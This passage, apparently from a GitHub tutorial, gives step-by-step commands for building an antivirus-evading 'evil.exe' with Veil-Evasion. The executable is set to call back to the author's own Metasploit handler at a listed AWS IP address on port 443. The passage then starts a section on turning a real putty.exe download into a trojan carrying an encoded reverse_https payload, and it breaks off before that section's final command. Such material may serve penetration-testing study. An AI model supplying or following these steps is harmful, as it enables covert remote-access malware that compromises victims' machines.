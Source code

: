     `git clone https://github.com/Veil-Framework/Veil.git`
3. Update the source - run the following commands. 

    `cd Veil`

    `./update.sh`
4. Next, you'll be prompted twice to update/download dependency requirements. Enter 'Y' and hit the Enter button.
5. Follow the on screen instructions in the Setup Wizard GUI window that will pop up, in order to install all the required python dependencies. Leave all the defaults in the installation wizard, just keep pressing next. 
6. Start the framework - run the following commands.

    `cd Veil-Evasion/`

    `./Veil-Evasion.py`
7. Once inside the framework, I entered the following commands to produce my undetectable exe

    `list`

    `16`

    `set LHOST 54.197.139.176 # my aws instance w metasploit handler listner`

    `set LPORT 443`

    `info` # double check the desired settings

    `generate`

    `evil` # base name for executable , can be anything 

    `1` # since we are in linux, not windows
8. Next, the exe will generate, watch closely for errors. 
9. Exit the framework - enter the following commands:

    `[enter]`

    `exit` # to leave
10. Once back at the bash command prompt, collect the newly generated exe - enter the following commands.

    `cd`

    `cd veil-output/compiled/`

    `ls` # you should see evil.exe if there were no errors

***
## 3. Evil putty payload
Perform the following steps to generate an infected putty executable.

1. Install Metasploit
2. Download putty by running the following command:

    `wget http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe`
3. Next, we will generate the reverse\_https metasploit payload, encode it 25 times using shikata\_ga\_nai, set the listener IP address and port, and generate our evil payload 'evilputty.exe' from our original payload 'putty.exe' all without breaking the functionality of the original by using the `-x` flag. 
